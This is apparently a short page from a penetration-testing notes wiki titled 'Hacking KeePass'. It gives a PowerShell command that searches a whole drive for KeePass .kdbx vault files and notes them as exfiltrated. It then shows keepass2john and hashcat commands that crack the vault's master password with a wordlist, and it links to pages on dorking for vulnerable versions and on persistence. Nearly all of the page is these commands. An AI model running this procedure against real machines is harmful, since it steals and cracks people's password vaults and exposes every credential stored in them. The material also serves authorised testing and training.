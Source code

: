 # Hacking KeePass


#### Exfiltrate .kdbx and crack


KeePass - [https://keepass.info/](https://keepass.info/) 
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
# Exfiltrated
keepass2john Database.kdbx > keepass.hash
# And crack with Hashcat
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

#### Otherwise..

[[Search-Engine-Dorking]] for vulnerable versions

[[Persistence]]

## References

[https://keepass.info/](https://keepass.info/) 
